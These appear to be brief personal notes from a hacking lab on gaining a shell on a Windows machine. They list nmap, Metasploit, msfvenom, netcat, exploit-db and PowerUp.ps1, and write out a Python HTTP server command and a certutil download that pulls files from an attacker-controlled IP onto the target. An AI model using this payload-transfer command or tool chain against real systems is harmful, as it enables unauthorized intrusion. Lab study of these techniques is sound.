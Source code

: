 in here i learnt how to get the shell of windows machine
i used NMAP
- metasploit
- msfvenom
- exploit-db
- using of IP address in the browser then viewing the source code for that [to get some information which i was not doing]
- NETCAT
- running of powershell executable files [PowerUp.ps1]
- service stopping and starting in windows machine
- checking the function which are running and hacking through it
  ----> python3 -m http.server 1234   - for linux
  ----> certutil -urlcache -f http://<IP>:1234/file_name file_name[how it should be saved]   - in windows to download the file from linux or any server 
